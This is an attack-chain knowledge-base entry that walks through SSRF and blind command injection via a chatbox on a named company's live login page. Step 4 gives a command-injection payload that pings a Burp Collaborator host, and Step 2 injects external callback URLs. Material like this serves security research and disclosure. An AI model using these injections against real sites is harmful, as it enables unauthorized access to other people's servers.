

---
tags:
  - ssrf
  - command-injection
  - web-vulnerability
  - reconnaissance
type: attack_chain
tools:
  - '[[tools/Burp-Collaborator]]'
  - '[[tools/pingb-in]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Reconnaissance]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Access-Login-Page-and-Identify-Chatbox]]'
  - '[[procedures/Trigger-SSRF-with-External-URL]]'
  - '[[procedures/Observe-SSRF-Interaction]]'
  - '[[procedures/Inject-Command-for-Blind-Command-Injection]]'
  - '[[procedures/Observe-DNS-Interaction-for-Command-Injection]]'
step_count: 6
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Unix Shell]]'
updated_at: '2025-12-14T04:08:55.211Z'
description: >-
  Multi-stage attack exploiting SSRF in the chatbox on Stripo's login page,
  enabling external request forgery and blind command injection for
  reconnaissance and potential further exploitation.
skill_level: intermediate
impact_level: high
id: 795e02b0-c6f7-40b1-b2f1-a91010a5ac9d
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Reconnaissance]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Unix Shell]]'
---
# SSRF and Blind Command Injection via Login Page Chatbox

Multi-stage attack chain demonstrating exploitation of SSRF and blind command injection in the chatbox feature on Stripo Inc's login page, allowing unauthorized server requests and command execution for attack surface mapping and reconnaissance.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Collaborator]]
- [[tools/pingb-in]]

### Target Environment

- Web platform
- Access to public-facing login page at https://my.stripo.email/cabinet/#/login?guid=&tn=&locale=en
- No authentication required

### Initial Access Requirements

- Internet access to the target URL
- No credentials needed
- Positioned as external attacker

## Detailed Attack Procedures

### Step 1: Access Login Page
procedure: [[procedures/Access-Login-Page-and-Identify-Chatbox]]

**Objective**: Navigate to the target login page and locate the vulnerable chatbox for input injection.

**Instructions**: Open a web browser and directly access the login URL. Inspect the page to identify the chat input field.

**Expected Output**: Login page loads with visible chatbox interface.

**Success Indicators**:
- Page accessible without errors
- Chatbox input field identified

### Step 2: Trigger SSRF with External URL
procedure: [[procedures/Trigger-SSRF-with-External-URL]]

**Objective**: Inject an external URL into the chatbox to force the server to make unauthorized requests.

**Instructions**: In the chatbox, paste a Burp Collaborator URL or http://pingb.in/ and submit. This triggers a server-side request to the external domain.

**Expected Output**: No visible response on the page, but external interaction detected on the attacker's server.

**Success Indicators**:
- Incoming request observed on Burp Collaborator or pingb.in
- Confirms SSRF vulnerability

### Step 3: Observe SSRF Interaction
procedure: [[procedures/Observe-SSRF-Interaction]]

**Objective**: Monitor and validate the SSRF by capturing the incoming HTTP request from the target server.

**Instructions**: Use Burp Collaborator to poll for interactions after submitting the URL in the chatbox.

**Expected Output**: HTTP request details from the target's IP to the Collaborator payload.

**Success Indicators**:
- HTTP interaction logged
- Source IP matches target's infrastructure

### Step 4: Inject Command for Blind Command Injection
procedure: [[procedures/Inject-Command-for-Blind-Command-Injection]]

**Objective**: Leverage the same endpoint to inject a system command, demonstrating blind command injection.

**Instructions**: Paste the payload `ping 637c7wji9kaqwyxtncutltrw9nfd32.burpcollaborator.net` into the chatbox and submit, using [[commands/ping-burpcollaborator]] to trigger DNS lookup.

```bash
ping 637c7wji9kaqwyxtncutltrw9nfd32.burpcollaborator.net
```

**Expected Output**: No direct output on the page, but DNS interaction on the attacker's side.

**Success Indicators**:
- Command payload accepted without error
- Potential for further command chaining

### Step 5: Observe DNS Interaction for Command Injection
procedure: [[procedures/Observe-DNS-Interaction-for-Command-Injection]]

**Objective**: Confirm command execution by detecting the DNS resolution triggered by the injected ping command.

**Instructions**: Monitor Burp Collaborator for DNS queries after command injection.

**Expected Output**: DNS lookup record to the Collaborator domain from the target server.

**Success Indicators**:
- DNS interaction detected
- Validates blind command injection

### Step 6: Assess Impact

**Objective**: Evaluate the reconnaissance potential and risks of the vulnerabilities.

**Instructions**: Analyze captured interactions to map the attack surface, noting potential for internal system access or further exploits.

**Expected Output**: Insights into server's external connectivity and command execution capabilities.

**Success Indicators**:
- Attack surface mapped
- Potential for escalation identified

## Attack Chain Summary

### Key Achievements

1. Confirmed SSRF allowing external request forgery
2. Demonstrated blind command injection via ping to external domain
3. Enabled reconnaissance of internal/external infrastructure

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Unix Shell]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Reconnaissance]]

---
*Last updated: 2023-10-01T00:00:00Z*
